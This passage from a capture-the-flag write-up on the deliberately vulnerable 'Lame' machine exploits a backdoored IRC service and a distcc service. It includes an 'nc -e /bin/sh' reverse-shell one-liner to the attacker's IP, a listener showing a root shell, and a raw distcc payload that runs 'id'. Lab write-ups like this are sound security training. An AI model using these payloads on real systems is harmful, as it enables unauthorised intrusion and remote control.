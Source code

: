 On trying to connect to this port, I get output that identifies this as from Metasploitable:

```

daemon@lame:/tmp$ nc 127.0.0.1 6697
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
ERROR :Closing Link: [127.0.0.1] (Ping timeout)

```

That suggests it’s likely the vulnerable version.

#### Exploit

I exploited this version of IRC in [Irked](/2019/04/27/htb-irked.html), and even wrote my own script to exploit it. However, it was Python3, and this box doesn’t have Python3. Rather than back-port it, I can use a one-liner from my shell:

```

daemon@lame:/tmp$ echo "AB; nc -e /bin/sh 10.10.14.24 443" | nc 127.0.0.1 6697
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead

```

And in a `nc` listener, get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:49683.
id
uid=0(root) gid=0(root)

```

## Beyond Root - distcc Exploit

To see what was happening, I started Wireshark and ran the distcc `nmap` exploit again. There’s some pinging, and a few test TCP streams, before the payload shows up in TCP stream 3:

![image-20200407151950507](https://0xdfimages.gitlab.io/img/image-20200407151950507.png)

I can see both the exploit and the response in there.

To test, I tried pasting that same string into `nc`. It worked, returning the output of `id`:

```

root@kali# nc 10.10.10.3 3632
DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV0000000csh -c '(id)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A
DONE00000001STAT00000000SERR00000000SOUT0000002duid=1(daemon) gid=1(daemon) groups=1(daemon)
DOTO00000000Ncat: Connection reset by peer.

```
